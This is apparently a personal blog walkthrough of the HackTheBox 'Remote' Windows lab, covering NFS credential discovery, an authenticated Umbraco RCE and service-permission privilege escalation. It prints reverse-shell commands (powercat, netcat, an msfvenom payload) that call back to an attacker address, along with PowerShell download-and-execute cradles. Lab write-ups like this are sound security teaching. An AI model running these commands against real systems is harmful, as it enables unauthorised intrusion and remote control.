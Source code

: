 ```yaml
---
layout: post
title: HackTheBox Remote walkthrough
gh-repo: c00rni/c00rni.github.io
gh-badge: [star, fork, follow]
tags: [enumeration, hackthebox, powercat, powerup, nfs, rpcbind, netcat, powershell, windows, msfvenom, oscp]
comments: true
---
```


Remote is a HacktheBox windows machine with the ip address 10.10.10.180. Rated as easy on the platform, this machine is highly [CVE](https://cve.mitre.org/about/cve_and_nvd_relationship.html) oriented and similar what you would encounter in an OSCP exam. I got a foothold on the machine using an authenticated remote code execution on the web server and elevate my privilege through an insecure file permission vulnerability. This box is fun and great to get familiar with windows privilege escalation.

![info_card.png](https://raw.githubusercontent.com/c00rni/c00rni.github.io/master/_posts/_resources/3b4dc061e2b548afb1e48a934e076f09.png)


# Enumeration

I started with multiple port scans.
## Port scans

![full_scan.png](https://raw.githubusercontent.com/c00rni/c00rni.github.io/master/_posts/_resources/b7bc801733c0425ab5820880a68c5c86.png)


![detail_scan.png](https://raw.githubusercontent.com/c00rni/c00rni.github.io/master/_posts/_resources/c6a91f46435c4725bc4b7c6678a4d996.png)


A lot of ports were opened and the enumeration phase can be very time consuming in a penetration test. In order to manage my time efficiently, I spent no longer than 30 minutes on each port and focus my attention in this order:
- Port 80/5985/47001 because they are webservers.
- Port 21, Anonymous login is allowed I might be to upload or download files.
- Port 111/2049 NFS is insecure by design and drives are mounted.
- Port 445 - Samba or SMB can provide very useful information but I need credentials to log in.
- Other ports ...

### Port 80

I found a login page using Umbraco CMS. Version 7.12.4 is vulnerable to an [authenticated remote code execution](https://www.exploit-db.com/exploits/46153).

![umbraco_login_page.png](https://raw.githubusercontent.com/c00rni/c00rni.github.io/master/_posts/_resources/16a50ddcc8054aa5b2bb76c7e12826c8.png)

### Port 111

Network File System (NFS) allow users on client computers to access files over the network as if they were on locally mounted storage. NFS is insecure by design. It's not uncommon to see storage open to the world because of miss configurations.

I used NSE Nmap scripts to discover the name of the mount directory.

![nfs_nse_sancs.png](https://raw.githubusercontent.com/c00rni/c00rni.github.io/master/_posts/_resources/16cf451fc34d48f58e8d9fb9c7ecd362.png)

I mount the remote drive to a directory.
```bash
mkdir site-backups
sudo mount -o nolock 10.10.10.180:/site-backups $PWD/site-backups
```

Found the file Umbraco database in a compact file format ([SDF](https://fileinfo.com/extension/sdf)). *This was the most tricky part in my opinion, things could become difficult without the knowledge of this file format*.

![found_umbraco.sdf.png](https://raw.githubusercontent.com/c00rni/c00rni.github.io/master/_posts/_resources/8e6c12f1220145e49ab23e099404e464.png)

Extracted the credentials from the raw data and decrypt the password hash [online](https://md5decrypt.net/Sha1/).

![database_content.png](https://raw.githubusercontent.com/c00rni/c00rni.github.io/master/_posts/_resources/889460b74eb44aa6881903bfcbceaa13.png)

Clair text password:

```plaintext
username: admin@htb.local
password: baconandcheese 
```

# Foothold

I confirmed umbraco verson with `grep -iR "7.12.4"` and download [noraj umbraco poc](https://github.com/noraj/Umbraco-RCE). Since I didn't know what was the privileges of the user I was exploiting I executed the powercat.ps1 script without saving the file on the remode file system by combining the **DownloadString** methode with the Invoke-Expression cmdlet ([**IEX**](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.utility/invoke-expression?view=powershell-6)).

Listen for connections:
```bash
sudo nc -lnvp 4444
```

Modified powercat script. Replace the Xs with your ip address.
```bash
cp /usr/share/windows-resources/powercat/powercat.ps1 .
echo 'powercat -c X.X.X.X -p 4444 -e cmd.exe' >> powercat.ps1
```

Extended the powercat directory to be accessible from the server.
```bash
sudo python3 -m http.server
```

Exploit umbraco vulnerability.
```bash
sudo python3 Umbraco-RCE/exploit.py -u admin@htb.local -p baconandcheese -i http://10.10.10.180 -c powershell.exe -a "iex (New-Object System.Net.Webclient).DownloadString('http://X.X.X.X:8000/powercat.ps1')"
```

![foothold_shell.png](https://raw.githubusercontent.com/c00rni/c00rni.github.io/master/_posts/_resources/31186d2bc4ed47d3bd4bdec20ba4040d.png)

# Privilege escalation

**Insecure file permission** on services that run as `nt authority\system` are often an easy way to elevate privileges. 

I created a binary with **msfvenom** to replace the vulnerable service.
```bash
msfvenom -p windows/x64/exec CMD="C:\Windows\Temp\nc.exe -e cmd.exe X.X.X.X 9001" -f exe -o evil.exe
```

In order to execute all the Powershell commands in the same session, I opened a Powershell interpreter and moved to a writable directory.
```powershell
powershell.exe
cd c:\windows\temp
```

HarmJ0y `PowerUp.ps1` script from [PowerSploit](https://github.com/PowerShellMafia/PowerSploit) github repository is a awnsome tool. It uses several tehcniques base on misconfugurations such as unquoted services paths ans improper permission on service executables to attent elevate privileges.

I upload PowerUp script into the server and executed Invoke-AllChecks function.
```Powershell
iex (New-Object System.Net.Webclient).DownloadString('http://X.X.X.X:8000/PowerUp.ps1')
Invoke-AllChecks
```


![Invoke-AllChecks.png](https://raw.githubusercontent.com/c00rni/c00rni.github.io/master/_posts/_resources/23ebf8a49b9a47c3b0318d62251b45bc.png)



Downloaded the binary and netcat to the server.
```powershell
powershell.exe -nop (New-Object System.Net.WebClient).DownloadFile('http://X.X.X.X:8000/evil.exe', 'c:\\Windows\\Temp\\evil.exe')
powershell.exe -nop (New-Object System.Net.WebClient).DownloadFile('http://X.X.X.X:8000/nc.exe', 'c:\\Windows\\Temp\\nc.exe')
```

And finaly open a port on your machine and execute `Invoke-serviceAbuse` function.
Attacking machine:
```bash
sudo nc -lvnp 9001
```
Server:
```powershell
Invoke-ServiceAbuse -Name 'UsoSvc' -Command 'C:\Windows\Temp\evil.exe'
```



![root_shell.png](https://raw.githubusercontent.com/c00rni/c00rni.github.io/master/_posts/_resources/ddb212d55d1446a4b37e3c57c8b606c8.png)

Thanks for reading !

# References
- [https://fileinfo.com/extension/sdf](https://fileinfo.com/extension/sdf)
- [https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.utility/invoke-expression?view=powershell-6](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.utility/invoke-expression?view=powershell-6)
- [https://github.com/noraj/Umbraco-RCE](https://github.com/noraj/Umbraco-RCE)
- [https://md5decrypt.net/Sha1/](https://md5decrypt.net/Sha1/)
- [https://www.exploit-db.com/exploits/46153](https://www.exploit-db.com/exploits/46153)
- [https://cve.mitre.org/about/cve_and_nvd_relationship.html](https://cve.mitre.org/about/cve_and_nvd_relationship.html)
